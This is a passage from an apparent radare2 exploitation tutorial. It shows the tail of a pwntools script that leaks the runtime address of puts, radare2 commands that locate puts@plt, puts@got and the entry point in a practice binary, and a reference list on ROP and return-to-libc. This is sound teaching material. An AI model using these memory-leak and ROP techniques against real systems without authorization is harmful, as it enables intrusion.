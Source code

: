     # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()
  

if __name__ == "__main__":
    main()

</pre>
            
            <p>
              We need to fill in the addresses of <code>puts@plt</code>, <code>puts@got</code>, and the entry point of the program. Let&#8217;s get back to radare2 and execute the following commands. The <code>#</code> character is used for commenting and the <code>~</code> character is radare&#8217;s internal <code>grep</code>.
            </p>
            
            <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
              <tr style="height: 19.8594px;">
                <td style="height: 19.8594px;">
                  <span style="color: #468ee6;">[0xf7763b30]></span> # the address of puts@plt:<br /> <span style="color: #468ee6;">[0xf7763b30]></span> ?v sym.imp.puts<br /> 0x08048390<br /> <span style="color: #468ee6;">[0xf7763b30]</span>> # the address of puts@got:<br /> <span style="color: #468ee6;">[0xf7763b30]></span> ?v reloc.puts<br /> 0x0804a014<br /> <span style="color: #468ee6;">[0xf7763b30]></span> # the address of program&#8217;s entry point (entry0):<br /> <span style="color: #468ee6;">[0xf7763b30]></span> ieq<br /> 0x080483d0
                </td>
              </tr>
            </table>
          </div>
          
          <div style="overflow-x: auto; margin: 0 0 20px;">
            <p>
              <code>sym.imp.puts</code> and <code>reloc.puts</code> are flags that radare is automatically detect. The command <code>ie</code> stands for <strong>I</strong>nformation <strong>E</strong>ntrypoint.
            </p>
            
            <p>
              Now we need to fill in the addresses that we&#8217;ve found:
            </p>
            
            <pre class="toolbar:2 marking:false ranges:false nums:false nums-toggle:false show-plain:3 lang:python decode:true">...

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0


 [1]: https://www.megabeets.net/a-journey-into-radare-2-part-1/
 [2]: https://en.wikipedia.org/wiki/NX_bit
 [3]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
 [4]: https://en.wikipedia.org/wiki/Call_stack
 [5]: https://en.wikipedia.org/wiki/Buffer_overflow
 [6]: https://en.wikipedia.org/wiki/Return-oriented_programming
 [7]: https://en.wikipedia.org/wiki/X86_calling_conventions
 [8]: https://www.megabeets.net/uploads/r2_part1_2.png
 [9]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2
 [10]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2.c
 [11]: https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries
 [12]: https://en.wikipedia.org/wiki/Position-independent_code
 [13]: https://tk-blog.blogspot.co.il/2009/02/relro-not-so-well-known-memory.html
 [14]: https://reverseengineering.stackexchange.com/a/16115/18698
 [15]: https://www.megabeets.net/uploads/mainsym.png
 [16]: https://www.megabeets.net/uploads/beetsym.png
 [17]: https://www.megabeets.net/uploads/tumblr_m5vxpy8Cs41qfoh4t.gif
 [18]: https://en.wikipedia.org/wiki/De_Bruijn_sequence
 [19]: https://en.wikipedia.org/wiki/C_standard_library
 [20]: https://en.wikipedia.org/wiki/Return-to-libc_attack
 [21]: https://en.wikipedia.org/wiki/Shellcode